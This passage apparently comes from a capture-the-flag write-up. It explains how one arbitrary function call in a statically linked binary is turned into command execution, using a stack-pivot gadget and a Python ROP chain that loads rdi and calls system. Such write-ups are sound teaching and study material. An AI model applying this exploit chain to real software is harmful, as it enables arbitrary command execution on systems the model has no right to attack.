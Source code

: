 As you can see, our controlled input is below of `incoming_info`, and it gives us an opportunity to call one arbitrary function! This is cool, but we don't control `rdi` in a way to call `system("any command here")`. So, we need to control `rdi` somehow.

I hope you remember that our incoming data is stored on the stack as well (in `server` variable)

<p align="center">
  <img src="screens/stack.png">
</p>

And my final idea was next:

- We have a statically linked binary which has a lot of different gadgets

- We can call one arbitrary function

- Our input is stored on the stack

So, having all of these, we can try to call gadget that will shift `rsp` to our controlled input and make ROP chain to put any string into `rdi` and call `system`. Yay, that's all folks.

That gadget will shift rsp to our controlled input on the stack.

```
0x0000000000409070 : add rsp, 0x58 ; ret
```

The main problem was to control rdi, so my ROP chain was a little bit tricky:

```python
payload = p64(mov_rax_r13_pop_pop_pop) + p64(0) + p64(0) + p64(0) + \
        p64(pop_rsi) + p64(0x870) + \
        p64(sub_rax_rsi) + \
        p64(push_rax_pop_rbx) + \
        p64(pop_r12) + p64(pop_rax) + \
        p64(mov_rdi_rbx_call_r12) + \
        p64(system)
```
